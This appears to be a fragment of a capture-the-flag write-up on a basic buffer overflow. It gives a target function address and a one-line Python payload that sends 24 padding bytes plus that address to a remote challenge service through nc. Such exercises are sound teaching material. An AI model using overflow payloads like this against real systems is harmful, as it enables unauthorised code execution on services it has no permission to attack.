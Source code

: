 # Wath is bof?
```

flag : 0x08048516

[+]payload
(python2 -c "print 'a'*24 + '\x16\x85\x04\x08'";cat) | nc ip port


```